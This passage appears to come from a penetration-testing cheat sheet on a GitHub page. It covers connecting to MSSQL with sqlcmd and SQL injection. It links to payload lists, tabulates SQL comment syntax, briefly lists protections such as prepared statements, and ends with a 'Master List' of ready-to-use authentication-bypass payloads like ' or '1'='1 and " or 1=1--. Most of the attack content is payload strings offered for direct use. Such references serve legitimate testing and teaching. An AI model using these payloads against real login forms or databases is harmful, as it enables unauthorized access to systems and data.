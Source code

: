 ```console
$ sqlcmd -S <RHOST> -U <USERNAME>
$ sqlcmd -S <RHOST> -U <USERNAME> -P '<PASSWORD>'
```

## SQL Injection (SQLi)

> https://github.com/payloadbox/sql-injection-payload-list

> https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet

### Comments

```console
#       // Hash comment
/*      // C-style comment
-- -    // SQL comment
;%00    // Nullbyte
`       // Backtick
```

### Wildcard Operators

`%a` value starts with `a`
`e%` value ends with `e`

### Protection

* Prepared Statements (Parameterized Queries)
* Input Validation
* Escaping User Input

### Master List

```console
';#---
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```
